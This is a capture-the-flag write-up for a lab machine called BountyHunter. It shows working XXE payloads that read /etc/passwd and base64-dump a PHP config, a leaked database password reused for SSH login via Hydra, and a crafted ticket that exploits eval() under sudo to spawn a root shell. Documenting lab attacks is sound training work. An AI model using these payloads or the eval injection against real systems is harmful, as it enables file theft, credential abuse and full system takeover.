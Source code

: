 
# 💫 Enum
***
### Nmap Scan
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

***

## 💎 XXS vuln

A submit Form , On Intercepting Request using `Burp` 
- data was tranfered in `XML` in `bas64` encoding
- `XXE` Vuln (`Among OWASP Top 10`)
- payload for `LFI` to get content of `/etc/passwd` file  

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<bugreport>
<title>&xxe;</title>
<cwe>d</cwe>
<cvss>a</cvss>
<reward>150</reward>
</bugreport>
```

<details>
    <summary>Content of /etc/passwd</summary>

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
</details>

- Another Payload to get Contents of `db.php` Since Its not directly Accessable 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
<bugreport>
<title>&xxe;</title>
<cwe>d</cwe>
<cvss>a</cvss>
<reward>150</reward>
</bugreport>
```

Content of **`db.php`**

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

---

# ♻️ Footholding

At this moment we have `Bunch of Usernames` and a `Single password`

### Using Hydra 
Brute Forcing The `Usernames` with `Specific password` on `SSH` Since its the only other open PORT

```
[22][ssh] host: 10.10.11.100   login: development   password: m19RoAU0hP41A1sTsq6K
```

---

# ❎ Prev-ECS

Using Command : `sudo -l`

User `development` may run the following commands on bountyhunter:
    (root) NOPASSWD: `/usr/bin/python3.8` `/opt/skytrain_inc/ticketValidator.py`
    
    
Reading the File `/opt/skytrain_inc/ticketValidator.py`

<details>
<summary>tickeyValidator.py</summary>
    
```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

</details>


- **From the reading the `invalid-Tickets` avalible on machine and `eval` function in The above code , can make a own ticket to get root**


```text
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+75 == 75 or __import__('os').system('/bin/sh')**
##Issued: 2021/04/06
#End Ticket
```

---

# ➕ Resouces

- [Onehackman XXE Medium](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)

- [Owasp XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

- [PortSwigger | Web Security | XXE](https://portswigger.net/web-security/xxe)

---
